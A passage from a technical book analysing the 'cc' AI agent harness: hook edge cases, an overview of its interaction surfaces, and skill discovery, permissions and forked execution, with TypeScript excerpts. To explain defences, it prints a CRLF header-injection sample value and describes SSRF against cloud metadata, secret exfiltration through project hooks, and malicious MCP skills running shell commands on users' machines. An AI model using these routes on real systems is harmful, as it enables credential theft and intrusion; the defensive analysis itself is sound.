**Agent hook hitting the turn limit.** If an agent hook reaches `MAX_AGENT_TURNS` (50) without calling `StructuredOutputTool`, the hook returns `cancelled` with no UI message. The analytics event `tengu_agent_stop_hook_max_turns` is emitted for observability, including `durationMs` and `turnCount`. This prevents a runaway verification agent from consuming resources indefinitely. The `cancelled` outcome (as opposed to `blocking`) means the agent is not prevented from stopping -- the verification was inconclusive, not negative.

**Function hook identity semantics.** Because `SessionHooksState` uses a `Map` and mutators return the previous `AppState` object unchanged, concurrent `addFunctionHook` calls from parallel agents do not trigger reactive store listeners. This is a performance-critical design choice: with `N` parallel agents, `Record` + spread would cost O(N^2) listener notifications versus zero with `Map`. The `isHookEqual` function in `hooksSettings.ts` is used when removing hooks to match by value rather than by reference, ensuring that the hook object stored in the matcher can be compared with the one passed to `removeSessionHook`.

**HTTP hook proxy interaction.** When a global proxy (HTTP_PROXY/HTTPS_PROXY) or sandbox network proxy is active, the SSRF guard is skipped because the proxy performs DNS resolution. Applying the guard would validate the proxy's own IP instead of the target, breaking connections to corporate proxies on private networks. The `envProxyActive` flag is computed by checking `getProxyUrl()` and `shouldBypassProxy(hook.url)`. When any proxy is active, the `lookup` option in the axios request config is set to `undefined`, which allows axios to use its default DNS resolution.

**HTTP hook CRLF injection via environment variables.** The `sanitizeHeaderValue` function strips `\r`, `\n`, and `\x00` bytes from interpolated header values. Without this, a malicious environment variable like `TOKEN="value\r\nX-Evil: injected-header"` would inject a second header into the HTTP request. The regex `[\r\n\x00]` covers all three problematic byte sequences.

**HTTP hook environment variable exfiltration.** The `interpolateEnvVars` function only resolves variables present in the `allowedEnvVars` set. Variables not in the set are replaced with empty strings, and a debug warning is logged. This prevents a project-configured HTTP hook from reading `AWS_SECRET_ACCESS_KEY` or other sensitive environment variables and sending them to an external server in a header. The allowlist is the intersection of the hook's declared `allowedEnvVars` and the policy-level `httpHookAllowedEnvVars`, so enterprise administrators can further restrict which variables are available.

## Where cc diverges from the published pattern

HER Pattern 12 describes deterministic lifecycle hooks as shell commands at defined lifecycle points. CC's implementation goes substantially further:

1. **Multiple execution modes.** The pattern describes command hooks only. CC adds prompt (LLM-evaluated), HTTP (remote webhook), agent (multi-turn verification), and function (in-process callback) types. This gives hooks far more expressive power but also increases the attack surface. Each new execution mode introduces new failure modes and security considerations that the pattern does not address.

2. **SSRF defense for HTTP hooks.** The pattern does not address network-level security for hooks. CC's `ssrfGuard.ts` implements DNS-level SSRF protection with IPv6-mapped IPv4 handling and CGNAT range blocking. This is a defense-in-depth measure against supply chain attacks via project-configured hooks (HER Section 12.4). The CGNAT range blocking (100.64.0.0/10) is particularly important because some cloud providers (notably Alibaba Cloud) use this range for metadata endpoints, which attackers could target to steal cloud credentials.

3. **Environment variable interpolation controls.** HTTP hook headers support `$VAR_NAME` interpolation, but only for variables in an explicit allowlist. This prevents secrets exfiltration via project-configured hooks, addressing HER's supply chain attack vector. The intersection of the hook's declared allowlist and the policy-level allowlist provides a two-tier restriction model.

4. **Function hooks as in-process callbacks.** No other harness in the comparison table (Cursor, Devin) exposes an in-process hook API. Function hooks enable features like `registerStructuredOutputEnforcement` that would be impossible or impractical as subprocess commands. The tradeoff is that function hooks cannot be persisted to `settings.json` and are lost on session restart.

5. **Session-scoped hook registry.** The `SessionHooksState` Map provides per-session hook isolation and O(1) concurrent mutation. This is an implementation optimization not described in the pattern literature but essential for multi-agent parallelism. The Map-based design was chosen after a real performance problem was identified with parallel schema-mode agents.

6. **Event broadcasting for SDK consumers.** The `hookEvents.ts` module provides a real-time event stream for hook execution. This is not described in the pattern but is essential for IDE integrations and SDK consumers that need to display hook progress in their own UI.

7. **Async hook registry for background verification.** The pattern describes hooks as synchronous gates: the agent waits for the hook result before proceeding. CC's `AsyncHookRegistry` introduces an async mode where command hooks can return an interim approval and continue running in the background. The registry tracks in-flight hooks, polls for completion between agent turns, and delivers results when the background process finishes. This is essential for hooks that perform expensive checks (e.g., running a full test suite as a `PostToolUse` gate) that would otherwise block the agent for minutes. The tradeoff is that the agent proceeds before the hook has fully verified the action, which means a late-blocking result may need to interrupt a subsequent turn. The `SessionStart` hook special case (where completion triggers `invalidateSessionEnvCache()`) demonstrates how async hooks can have side effects that go beyond simple approval/denial.

## Developer takeaways for building a long-running agent

1. **Converge on a unified result type.** All five hook execution paths return the same `HookResult` shape. This lets the dispatch layer in `hooks.ts` handle outcomes uniformly regardless of hook type. If you add a new hook type, implement the same return contract. The `outcome` field should be an enum, not a boolean, to distinguish between "failed" and "explicitly blocked."

2. **Isolate failures to non-blocking errors by default.** CC's design philosophy is that a broken hook should not crash or block the agent. The `non_blocking_error` outcome preserves forward progress while surfacing diagnostics. Reserve `blocking` for intentional gate-keeping (e.g., prompt hooks that enforce policies). The `cancelled` outcome should be used when the hook was interrupted by an external event (timeout, user cancellation), not when the hook produced a negative result.

3. **Guard network-facing hooks with SSRF protection.** Any hook type that makes outbound network requests (HTTP now, perhaps gRPC later) must validate resolved IP addresses before connecting. Loopback should be explicitly allowed for local dev use cases. IPv4-mapped IPv6 addresses must be handled to prevent bypass. The `ssrfGuardedLookup` function's approach of intercepting DNS resolution at the axios level eliminates the TOCTOU window.

4. **Use Map-based state for concurrent mutation.** When multiple agents can register hooks in the same tick, `Map.set()` + return-prev-unchanged avoids O(N^2) reactive listener notifications. This pattern applies broadly to any store where ephemeral, session-scoped state is mutated from parallel contexts. The key insight is that `Object.is(next, prev)` checks in reactive stores can be leveraged to skip notification when the store's identity has not changed.

5. **Cap agent hook turns.** Multi-turn verification agents must have a hard turn limit. CC uses 50 turns, which is generous for verification but finite. Without a cap, a misconfigured or adversarial agent hook could run indefinitely, consuming API credits and blocking the user's session. The `cancelled` outcome (rather than `blocking`) ensures that a timeout does not prevent the agent from completing its task.

6. **Treat skill-provided hooks as untrusted.** The `registerSkillHooks` function registers hooks from skill frontmatter into the session registry. Skills are user-provided and potentially malicious (HER Section 12.4). The `once: true` mechanism auto-removes one-shot hooks after execution, reducing the window for abuse. Enterprise deployments should use `allowManagedHooksOnly` to restrict hook registration to admin-defined sources.

7. **Support async hooks for long-running checks.** Not every hook can complete in milliseconds. A `PostToolUse` hook that runs a test suite or a `PreToolUse` hook that queries a remote policy server may take minutes. Without an async path, the agent would block, consuming no resources but also making no progress. The async hook registry pattern -- interim approval, background execution, between-turn polling -- allows the agent to continue while the check runs. The key invariant is that the registry must handle shutdown cleanly: `finalizePendingAsyncHooks` kills running processes and delivers `cancelled` outcomes so that no orphaned subprocesses survive session end.
# Part VII. Interaction Surfaces: Skills, Slash, MCP, UX

The power of an agent harness is not just in what it can do autonomously, but in the surfaces it exposes for humans and external systems to interact with it. Part VII covers the four interaction surfaces of cc: the skill system for progressive capability disclosure, the slash command registry for user-facing commands, the MCP protocol for external tool integration, and the Ink-based terminal UI for the primary user experience.

The theme of Part VII is the external interfaces through which users, developers, and external systems interact with the agent. These seven chapters are grouped together because they all address the same question: how does the outside world talk to cc? Each chapter covers a different surface -- skills for capability expansion, slash commands for user control, MCP for server integration, and the terminal UI for the primary interactive experience. Together, they represent the complete set of interfaces that make cc more than just a headless API wrapper.

Interaction surfaces are critical because they determine how usable, extensible, and trustworthy an agent is. A system that only exposes a raw API is usable only by developers. A system that only exposes a chat interface is usable only by end users. A system that only exposes a terminal UI cannot integrate with IDEs or external tools. cc's four surfaces -- skills, slash commands, MCP, and the terminal -- provide complementary interfaces that serve different audiences and different use cases, and they are designed to work together rather than in isolation.

Chapter 38 covers skills -- discovery from directories, bundled skills, frontmatter fields, user-invocable versus triggered modes, and inline versus fork context. Skills are cc's primary mechanism for capability expansion: they are Markdown files with YAML frontmatter that define new behaviors the agent can invoke. They implement HER's Pattern 9 (Progressive Tool Expansion) by allowing skills to be discovered and loaded on demand rather than all at once.

Chapter 39 examines the slash command registry -- the 90-plus built-in commands, prompt versus callback types, user-defined commands, and argument substitution. Slash commands are the most direct user-facing interface: they allow the user to type a short command (like `/help` or `/compact`) that triggers a specific behavior. Understanding the slash command registry is essential for understanding how users control cc's behavior without modifying configuration files.

Chapter 40 explores MCP clients, transports, and lifecycle -- server lifecycle, reconnect strategy, OAuth, and elicitation handling. MCP (Model Context Protocol) is the standard protocol for integrating external tool servers with cc. It allows third-party services to expose tools, resources, and prompts that cc can invoke. Understanding MCP is essential for understanding how cc extends its capabilities beyond the built-in tool set.

Chapter 41 covers MCP tools specifically -- MCPTool, ListMcpResourcesTool, ReadMcpResourceTool, McpAuthTool, why MCP tools are deferred, and how ToolSearch surfaces them. MCP tools are the concrete tool instances that wrap MCP server capabilities. They are unique in that they are deferred: they are not loaded into the model's tool list until the model asks for them via ToolSearch, preventing tool explosion when many MCP servers are configured.

Chapter 42 examines the Ink renderer and terminal engine -- the custom React reconciler, Yoga layout, output rendering, focus management, selection, and ANSI handling. The Ink renderer is what makes cc a rich terminal application rather than a simple line-oriented interface. It uses React's component model to render structured terminal UI, enabling features like inline tool output, progress indicators, and interactive prompts.

Chapter 43 covers the REPL screen, prompt composer, typeahead hook (approximately 1,400 lines), voice integration hook (approximately 1,100 lines), bridge and inbox, and keybinding context. The REPL is cc's primary interactive surface: it is where the user types prompts, sees responses, and interacts with tool outputs. Understanding the REPL is essential for understanding how cc's internal systems are surfaced to the user.

Chapter 44 explores the IDE bridge architecture -- VS Code, JetBrains, and Web bridges, trusted devices, and inbound attachments. IDE bridges allow cc to run as a backend service that IDE extensions communicate with, providing a rich graphical interface on top of cc's headless capabilities. Understanding the bridge architecture is essential for understanding how cc integrates into developer workflows beyond the terminal.

By the end of this Part, you should understand how cc exposes its capabilities to users and external systems: how skills provide progressive capability disclosure, how slash commands offer direct control, how MCP integrates external tool servers, and how the terminal UI renders the interactive experience. This understanding is essential for Part VIII (which covers long-running work patterns that use these surfaces), Part IX (which covers the security implications of these surfaces), and Part X (which evaluates cc's interaction design against HER's patterns).

Return to the Table of Contents in the front matter for an overview of all ten parts and fifty-seven chapters.
# Skills: Discovery, Frontmatter, Progressive Disclosure

## Overview

Skills are the primary mechanism by which cc extends its capabilities at runtime without modifying the core codebase. A skill is a Markdown file (SKILL.md) with YAML frontmatter that defines metadata (name, description, allowed tools, model override, hooks) and a body that becomes the prompt injected into the conversation when the skill is invoked. Skills are discovered from multiple directory sources, loaded with precedence rules, and surfaced to the model via the `SkillTool` -- which itself implements HER Pattern 9 (Progressive Tool Expansion) by exposing only frontmatter metadata in the tool listing and loading full content lazily on invocation.

This chapter traces the full lifecycle: how skills are discovered from disk and MCP servers, how frontmatter fields are parsed and validated, how conditional skills activate on path patterns, and how the `SkillTool` dispatches inline versus forked execution. The security implications of treating skills as untrusted input (HER Section 12.4) are woven throughout, with particular attention to the safe-properties auto-allow system and the MCP skill shell-execution bypass.

## Data structures and contracts

The central type is the `Command` union, of which `PromptCommand` is the variant used for skills. The `BundledSkillDefinition` type defines the contract for skills compiled into the CLI binary.

```typescript
// src/skills/bundledSkills.ts:L15-L41 — Bundled skill definition
export type BundledSkillDefinition = {
  name: string
  description: string
  aliases?: string[]
  whenToUse?: string
  argumentHint?: string
  allowedTools?: string[]
  model?: string
  disableModelInvocation?: boolean
  userInvocable?: boolean
  isEnabled?: () => boolean
  hooks?: HooksSettings
  context?: 'inline' | 'fork'
  agent?: string
  files?: Record<string, string>
  getPromptForCommand: (
    args: string,
    context: ToolUseContext,
  ) => Promise<ContentBlockParam[]>
}
```

Each `BundledSkillDefinition` field maps directly to a `Command` property. The `files` field is unique to bundled skills: it declares reference files that are extracted to disk on first invocation, giving the skill's prompt access to supplementary data (configuration templates, schema definitions, reference implementations) that would be too large to embed in the prompt itself. The `getPromptForCommand` function is the deferred-content mechanism: it returns the full skill prompt only when invoked, not at registration time.

The `LoadedFrom` type tracks where a skill was discovered, which determines precedence, security treatment, and telemetry.

```typescript
// src/skills/loadSkillsDir.ts:L67-L74 — Skill source tracking
export type LoadedFrom =
  | 'commands_DEPRECATED'
  | 'skills'
  | 'plugin'
  | 'managed'
  | 'bundled'
  | 'mcp'
```

The `LoadedFrom` hierarchy encodes security assumptions. Skills loaded from `'bundled'` are compiled into the binary and implicitly trusted. Skills from `'managed'` come from enterprise policy and are IT-approved. Skills from `'skills'` and `'commands_DEPRECATED'` are user-authored local files -- trusted by the user who created them, but not by the system. Skills from `'mcp'` are remote and inherently untrusted: their markdown content is injected as-is, without processing shell injection commands (HER Section 12.4).

The `parseSkillFrontmatterFields` function parses all shared frontmatter fields and returns a validated object. This is the single source of truth for what a skill can declare.

```typescript
// src/skills/loadSkillsDir.ts:L185-L265 — Frontmatter parsing
export function parseSkillFrontmatterFields(
  frontmatter: FrontmatterData,
  markdownContent: string,
  resolvedName: string,
  descriptionFallbackLabel: 'Skill' | 'Custom command' = 'Skill',
): {
  displayName: string | undefined
  description: string
  hasUserSpecifiedDescription: boolean
  allowedTools: string[]
  argumentHint: string | undefined
  argumentNames: string[]
  whenToUse: string | undefined
  version: string | undefined
  model: ReturnType<typeof parseUserSpecifiedModel> | undefined
  disableModelInvocation: boolean
  userInvocable: boolean
  hooks: HooksSettings | undefined
  executionContext: 'fork' | undefined
  agent: string | undefined
  effort: EffortValue | undefined
  shell: FrontmatterShell | undefined
}
```

The `description` field is special: if the frontmatter does not declare one explicitly, `extractDescriptionFromMarkdown` pulls the first paragraph of the Markdown body as a fallback. The `hasUserSpecifiedDescription` boolean distinguishes these cases, because a skill without an explicit description is excluded from the `SkillTool` listing (the model cannot discover it unless the user types the slash command directly).

The `model` field accepts the special value `'inherit'`, which resolves to `undefined` -- meaning the skill inherits the session's current model rather than overriding it. Any other string is parsed by `parseUserSpecifiedModel`, which validates it against the known model alias table.

The `effort` field allows a skill to pin a reasoning-effort level (`low`, `medium`, `high`, or an integer). When a forked skill declares `effort: high`, the subagent runs with that effort level regardless of the parent session's setting. Invalid effort values are logged and silently ignored, rather than failing the skill load.

## Control flow

### Skill discovery from directories

The `getSkillDirCommands` function (memoized by cwd) is the primary entry point for skill discovery. It loads skills from five sources in parallel: managed (enterprise policy), user (~/.claude/skills), project (.claude/skills in project dirs), additional (--add-dir), and legacy commands directories.

```typescript
// src/skills/loadSkillsDir.ts:L679-L714 — Parallel loading from all sources
const [
  managedSkills,
  userSkills,
  projectSkillsNested,
  additionalSkillsNested,
  legacyCommands,
] = await Promise.all([
  isEnvTruthy(process.env.CLAUDE_CODE_DISABLE_POLICY_SKILLS)
    ? Promise.resolve([])
    : loadSkillsFromSkillsDir(managedSkillsDir, 'policySettings'),
  isSettingSourceEnabled('userSettings') && !skillsLocked
    ? loadSkillsFromSkillsDir(userSkillsDir, 'userSettings')
    : Promise.resolve([]),
  projectSettingsEnabled
    ? Promise.all(projectSkillsDirs.map(dir =>
        loadSkillsFromSkillsDir(dir, 'projectSettings'),
      ))
    : Promise.resolve([]),
  projectSettingsEnabled
    ? Promise.all(additionalDirs.map(dir =>
        loadSkillsFromSkillsDir(join(dir, '.claude', 'skills'), 'projectSettings'),
      ))
    : Promise.resolve([]),
  skillsLocked ? Promise.resolve([]) : loadSkillsFromCommandsDir(cwd),
])
```

Within `loadSkillsFromSkillsDir`, only the directory format is supported: `skill-name/SKILL.md`. Single `.md` files in the `/skills/` directory are ignored. The loader reads the directory entries, filters for directories and symbolic links, then attempts to read `SKILL.md` from each subdirectory. Non-ENOENT errors (permission denied, I/O errors) are logged at `warn` level so that misconfigured skill directories are diagnosable without crashing the load.

The legacy `/commands/` directory still supports both formats. The `transformSkillFiles` function handles the legacy directory's dual format: when a subdirectory contains a `SKILL.md`, that file is used and takes the name of its parent directory; otherwise, each `.md` file becomes a separate command named after the file (minus the `.md` extension). This legacy path is marked `commands_DEPRECATED` in the `LoadedFrom` type and will be removed in a future release.

After loading, skills are deduplicated by resolved file path (using `realpath` to handle symlinks). The deduplication uses `getFileIdentity`, which resolves symlinks to canonical paths. This is filesystem-agnostic and avoids the inode-0 problem on virtual/container/NFS filesystems where `stat.ino` is unreliable.

```typescript
// src/skills/loadSkillsDir.ts:L117-L124 — File identity resolution
async function getFileIdentity(filePath: string): Promise<string | null> {
  try {
    return await realpath(filePath)
  } catch {
    return null
  }
}
```

The first-seen source wins in the precedence order: managed > user > project > additional > legacy. The `seenFileIds` Map tracks which file identities have already been encountered; subsequent encounters log a debug message and skip the duplicate.

### Bare mode and policy locking

The `--bare` CLI flag restricts skill discovery to only `--add-dir` paths, skipping all managed, user, project, and legacy directory walks. This is useful for constrained environments (CI, containers) where only explicitly-specified skills should be loaded. The `isRestrictedToPluginOnly('skills')` check enforces enterprise policy: when the policy is active, no skills are loaded from any source except plugin-provided ones. This is the same policy mechanism that gates CLAUDE.md loading (HER Section 7.2), applied consistently to the skill surface.

### Conditional skill activation

Skills with a `paths` frontmatter field are conditional -- they are not loaded into the model's tool listing at startup. Instead, they are stored in a `conditionalSkills` Map and activated when the model operates on files matching the declared glob patterns.

```typescript
// src/skills/loadSkillsDir.ts:L997-L1058 — Conditional skill activation
export function activateConditionalSkillsForPaths(
  filePaths: string[], cwd: string,
): string[] {
  if (conditionalSkills.size === 0) return []
  const activated: string[] = []
  for (const [name, skill] of conditionalSkills) {
    if (skill.type !== 'prompt' || !skill.paths || skill.paths.length === 0) continue
    const skillIgnore = ignore().add(skill.paths)
    for (const filePath of filePaths) {
      const relativePath = isAbsolute(filePath) ? relative(cwd, filePath) : filePath
      if (skillIgnore.ignores(relativePath)) {
        dynamicSkills.set(name, skill)
        conditionalSkills.delete(name)
        activatedConditionalSkillNames.add(name)
        activated.push(name)
        break
      }
    }
  }
  return activated
}
```

The `paths` frontmatter uses gitignore-style glob patterns, processed by the `ignore` library. The `parseSkillPaths` function strips the `/**` suffix from patterns because the `ignore` library treats a bare directory name as matching both the directory and all its contents. If all patterns reduce to `**` (match-all), the skill is treated as unconditional.

The activation is one-directional: once a conditional skill matches a file, it moves from `conditionalSkills` to `dynamicSkills` and stays there for the rest of the session. The `activatedConditionalSkillNames` set survives cache clears, so that re-loading the skill directory does not re-activate already-activated skills.

The `ignore()` library throws on empty strings, paths with `..`, and absolute paths on Windows. The `activateConditionalSkillsForPaths` function skips these edge cases rather than crashing. Files outside the cwd cannot match cwd-relative patterns.

### Dynamic skill discovery

Beyond the startup scan, cc discovers skills dynamically during file operations. The `discoverSkillDirsForPaths` function walks from the file being operated on upward to the project root, checking for `.claude/skills` directories at each level.

```typescript
// src/skills/loadSkillsDir.ts:L861-L915 — Dynamic skill discovery
export async function discoverSkillDirsForPaths(
  filePaths: string[], cwd: string,
): Promise<string[]> {
  const fs = getFsImplementation()
  const resolvedCwd = cwd.endsWith(pathSep) ? cwd.slice(0, -1) : cwd
  const newDirs: string[] = []

  for (const filePath of filePaths) {
    let currentDir = dirname(filePath)
    while (currentDir.startsWith(resolvedCwd + pathSep)) {
      const skillDir = join(currentDir, '.claude', 'skills')
      if (!dynamicSkillDirs.has(skillDir)) {
        dynamicSkillDirs.add(skillDir)
        try {
          await fs.stat(skillDir)
          if (await isPathGitignored(currentDir, resolvedCwd)) {
            logForDebugging(`[skills] Skipped gitignored skills dir: ${skillDir}`)
            continue
          }
          newDirs.push(skillDir)
        } catch {
          // Directory doesn't exist
        }
      }
      const parent = dirname(currentDir)
      if (parent === currentDir) break
      currentDir = parent
    }
  }

  return newDirs.sort(
    (a, b) => b.split(pathSep).length - a.split(pathSep).length,
  )
}
```

The walk stops at the cwd boundary (not including cwd-level skills, which are already loaded at startup). The `dynamicSkillDirs` Set acts as a negative cache: once a directory path has been checked, it is never checked again, avoiding repeated `stat` calls on every file operation when the directory does not exist (the common case).

The gitignore check prevents `node_modules/pkg/.claude/skills` from loading silently. The `isPathGitignored` function runs `git check-ignore` on the containing directory, which handles nested `.gitignore`, `.git/info/exclude`, and global gitignore rules. Outside a git repository, the check fails open (exit code 128 is treated as "not ignored"), relying on the invocation-time trust dialog as the security boundary.

Newly discovered directories are sorted deepest-first so that skills closer to the file take precedence. The `addSkillDirectories` function loads skills from these directories and merges them into the `dynamicSkills` Map. Because the Map uses skill name as key, deeper paths (processed last) override shallower ones with the same name.

The `skillsLoaded` signal fires after dynamic skill addition, notifying other modules (such as the command cache) to clear their memoized state so the new skills appear in the tool listing.

### SkillTool dispatch: inline vs fork

The `SkillTool` in `src/tools/SkillTool/SkillTool.ts` is the model-facing interface for invoking skills. It validates the skill name, checks permissions, and dispatches either inline or forked execution based on the skill's `context` frontmatter field.

```typescript
// src/tools/SkillTool/SkillTool.ts:L291-L298 — Input schema
export const inputSchema = lazySchema(() =>
  z.object({
    skill: z.string().describe('The skill name. E.g., "commit", "review-pr", or "pdf"'),
    args: z.string().optional().describe('Optional arguments for the skill'),
  }),
)
```

The `validateInput` method normalizes the skill name (stripping a leading `/` if present), looks up the command in the registry, and checks that it is a `type: 'prompt'` command with `disableModelInvocation` set to false. Unknown skills return `errorCode: 2`, disabled skills return `errorCode: 4`, and non-prompt commands return `errorCode: 5`.

The `checkPermissions` method implements a three-tier decision process. First, it checks deny rules from the permission context, which can block specific skills by name or prefix (`review:*` blocks all skills whose name starts with `review`). Second, it checks allow rules. Third, if neither deny nor allow rules match, it applies the safe-properties auto-allow optimization.

```typescript
// src/tools/SkillTool/SkillTool.ts:L525-L538 — Safe-properties auto-allow
if (
  commandObj?.type === 'prompt' &&
  skillHasOnlySafeProperties(commandObj)
) {
  return {
    behavior: 'allow',
    updatedInput: { skill, args },
    decisionReason: undefined,
  }
}
```

The `skillHasOnlySafeProperties` function iterates over all keys of the command object. Properties in the `SAFE_SKILL_PROPERTIES` set (type, progressMessage, contentLength, argNames, model, effort, source, pluginInfo, disableNonInteractive, and a few others) are always safe. Properties not in the set are checked for "meaningful" values: `undefined`, `null`, empty arrays, and empty objects are considered non-meaningful and skipped. Any property with a meaningful value outside the safe set causes the function to return `false`, requiring explicit user permission.

This design ensures that skills declaring `allowedTools` (which could grant dangerous capabilities), `hooks` (which could run arbitrary code), or `shell` (which could execute commands) always require explicit permission. Future properties added to the `Command` type automatically fall into the "requires permission" category because they are not in the safe set, following the principle of default-deny.

For forked execution, the `executeForkedSkill` function prepares an isolated subagent context:

```typescript
// src/tools/SkillTool/SkillTool.ts:L122-L289 — Forked skill execution
async function executeForkedSkill(
  command: Command & { type: 'prompt' },
  commandName: string,
  args: string | undefined,
  context: ToolUseContext,
  canUseTool: CanUseToolFn,
  parentMessage: AssistantMessage,
  onProgress?: ToolCallProgress<Progress>,
): Promise<ToolResult<Output>> {
  const startTime = Date.now()
  const agentId = createAgentId()
  const isBuiltIn = builtInCommandNames().has(commandName)
  const isOfficialSkill = isOfficialMarketplaceSkill(command)
  const isBundled = command.source === 'bundled'
  const forkedSanitizedName =
    isBuiltIn || isBundled || isOfficialSkill ? commandName : 'custom'
  // ... telemetry fields elided for brevity ...
  logEvent('tengu_skill_tool_invocation', {
    command_name: forkedSanitizedName,
    _PROTO_skill_name: commandName,
    execution_context: 'fork',
    invocation_trigger: (queryDepth > 0 ? 'nested-skill' : 'claude-proactive'),
    query_depth: queryDepth,
    ...wasDiscoveredField,
    ...(command.pluginInfo && {
      _PROTO_plugin_name: command.pluginInfo.pluginManifest.name,
      plugin_name: isOfficialSkill
        ? command.pluginInfo.pluginManifest.name : 'third-party',
      plugin_repository: isOfficialSkill
        ? command.pluginInfo.repository : 'third-party',
      ...buildPluginCommandTelemetryFields(command.pluginInfo),
    }),
  })

  const { modifiedGetAppState, baseAgent, promptMessages, skillContent } =
    await prepareForkedCommandContext(command, args || '', context)

  const agentDefinition = command.effort !== undefined
    ? { ...baseAgent, effort: command.effort }
    : baseAgent

  const agentMessages: Message[] = []
  for await (const message of runAgent({
    agentDefinition,
    promptMessages,
    toolUseContext: { ...context, getAppState: modifiedGetAppState },
    canUseTool,
    isAsync: false,
    querySource: 'agent:custom',
    model: command.model as ModelAlias | undefined,
    availableTools: context.options.tools,
    override: { agentId },
  })) {
    agentMessages.push(message)
    // Report progress for tool uses (like AgentTool does)
    if ((message.type === 'assistant' || message.type === 'user') && onProgress) {
      const normalizedNew = normalizeMessages([message])
      for (const m of normalizedNew) {
        const hasToolContent = m.message.content.some(
          c => c.type === 'tool_use' || c.type === 'tool_result',
        )
        if (hasToolContent) {
          onProgress({
            toolUseID: `skill_${parentMessage.message.id}`,
            data: { message: m, type: 'skill_progress', prompt: skillContent, agentId },
          })
        }
      }
    }
  }

  const resultText = extractResultText(agentMessages, 'Skill execution completed')
  agentMessages.length = 0 // Release message memory

  return {
    data: {
      success: true,
      commandName,
      status: 'forked',
      agentId,
      result: resultText,
    },
  }
}
```

The forked path uses `prepareForkedCommandContext` to construct the subagent's state: the `modifiedGetAppState` applies the skill's `allowedTools` and model override to the tool permission context. The subagent runs via `runAgent` with its own token budget and message stream. After completion, `extractResultText` pulls the final text from the agent's message stream, and `clearInvokedSkillsForAgent` releases the skill content from the invoked-skills state to avoid memory leaks.

For inline execution, the skill's prompt content is expanded into new user messages appended to the current conversation. The `contextModifier` function updates the tool permission context to include the skill's `allowedTools` and applies the skill's `model` override. The inline path does not create a new agent; it modifies the current turn's context so that the model sees the skill prompt as additional user input.

### Skill prompt content generation

When `getPromptForCommand` is called (either for inline or forked execution), several transformations are applied to the raw Markdown content:

1. **Base directory prefix.** If the skill has a `skillRoot` (directory on disk), the content is prefixed with `Base directory for this skill: <dir>`. This tells the model that Read/Grep operations should resolve relative paths against the skill's directory, not the project root.

2. **Argument substitution.** `substituteArguments` replaces `$ARGUMENTS` and named argument placeholders (`$1`, `$2`, or named arguments from the frontmatter `arguments` field) with the actual arguments passed to the skill invocation.

3. **Variable interpolation.** `${CLAUDE_SKILL_DIR}` is replaced with the skill's own directory path (backslashes normalized to forward slashes on Windows). `${CLAUDE_SESSION_ID}` is replaced with the current session's ID.

4. **Shell command execution.** For non-MCP skills, `executeShellCommandsInPrompt` processes `!` backtick injection and `shell` frontmatter commands, executing them and substituting their output into the prompt content. The tool permission context is temporarily modified to include the skill's `allowedTools` so that shell commands can invoke approved tools.

```typescript
// src/skills/loadSkillsDir.ts:L372-L396 — MCP skill shell execution bypass
// Security: MCP skills are remote and untrusted — never execute inline
// shell commands (!`...` / ```! ... ```) from their markdown body.
// ${CLAUDE_SKILL_DIR} is meaningless for MCP skills anyway.
if (loadedFrom !== 'mcp') {
  finalContent = await executeShellCommandsInPrompt(
    finalContent,
    { ...toolUseContext, getAppState() { /* modified with allowedTools */ } },
    `/${skillName}`,
    shell,
  )
}
```

The MCP skill bypass is a critical security boundary. MCP servers are remote and potentially malicious. If their skill content contained `!` backtick commands, those commands would execute on the client machine with the user's full permissions. The `loadedFrom !== 'mcp'` check prevents this entirely.

### Bundled skill extraction

Bundled skills (compiled into the CLI binary) can declare `files` -- reference files extracted to disk on first invocation. The extraction uses `O_WRONLY | O_CREAT | O_EXCL | O_NOFOLLOW` flags and 0o600 permissions to prevent symlink attacks and ensure owner-only access.

```typescript
// src/skills/bundledSkills.ts:L178-L193 — Safe file extraction
const SAFE_WRITE_FLAGS =
  process.platform === 'win32'
    ? 'wx'
    : fsConstants.O_WRONLY | fsConstants.O_CREAT | fsConstants.O_EXCL | O_NOFOLLOW

async function safeWriteFile(p: string, content: string): Promise<void> {
  const fh = await open(p, SAFE_WRITE_FLAGS, 0o600)
  try { await fh.writeFile(content, 'utf8') }
  finally { await fh.close() }
}
```

The `O_EXCL` flag ensures that the extraction fails if the file already exists, preventing a TOCTOU race where an attacker creates a symlink at the target path between the check and the write. The `O_NOFOLLOW` flag prevents symlink following, so a symbolic link at the target path causes the write to fail rather than overwriting an arbitrary file. The 0o600 permissions restrict the file to owner-only read/write.

The extraction directory is deterministic and includes a per-process nonce from `getBundledSkillsRoot()`. The `resolveSkillFilePath` function validates that relative paths in the `files` map do not escape the skill's extraction directory. Absolute paths and `..` components are rejected with an error.

The `registerBundledSkill` function wraps the `getPromptForCommand` callback with closure-local memoization: the extraction promise is created on first invocation and shared across concurrent callers, so multiple parallel invocations of the same skill do not race to extract the same files.

### MCP skill discovery

MCP-provided skills are discovered through a separate path. The `getAllCommands` function in `SkillTool.ts` merges local commands with MCP skills, filtering for `type: 'prompt'` commands with `loadedFrom === 'mcp'`. The `uniqBy` call deduplicates by name, with local commands taking precedence (they appear first in the merged array). This means an MCP server cannot override a local skill, which is the correct security default.

The `registerMCPSkillBuilders` function at the bottom of `loadSkillsDir.ts` exposes `createSkillCommand` and `parseSkillFrontmatterFields` to the MCP skill discovery module via a leaf registry pattern. The indirection exists to avoid import cycle violations: a direct import from `mcpSkills.ts` would pull in too many transitive dependencies, while a variable-specifier dynamic import passes dep-cruiser but fails to resolve in Bun-bundled binaries at runtime.

### Skill token estimation

The `estimateSkillFrontmatterTokens` function provides a token count estimate for the frontmatter-only representation of a skill:

```typescript
// src/skills/loadSkillsDir.ts:L100-L105 — Frontmatter token estimation
export function estimateSkillFrontmatterTokens(skill: Command): number {
  const frontmatterText = [skill.name, skill.description, skill.whenToUse]
    .filter(Boolean)
    .join(' ')
  return roughTokenCountEstimation(frontmatterText)
}
```

This estimation is used by the tool listing to budget how many skills can be included before exceeding the token limit. The frontmatter-only representation is compact: approximately 1-5 tokens per skill, compared to hundreds of tokens for the full prompt content. For an agent with 50+ skills, this is the difference between a manageable and an unusable tool listing.

```mermaid
flowchart
    A[Model calls SkillTool] --> B{validateInput}
    B -->|invalid| C[Return error]
    B -->|valid| D{checkPermissions}
    D -->|deny rule| E[Return rejected]
    D -->|allow rule| F{context === fork?}
    D -->|no rule match| G{safeProperties?}
    G -->|yes| F
    G -->|no| H[Prompt user for permission]
    H -->|approved| F
    H -->|denied| E
    F -->|yes| I[executeForkedSkill]
    F -->|no| J[processPromptSlashCommand]
    I --> K[runAgent in isolated context]
    K --> L[Return forked result with agentId]
    J --> M[Expand prompt into newMessages]
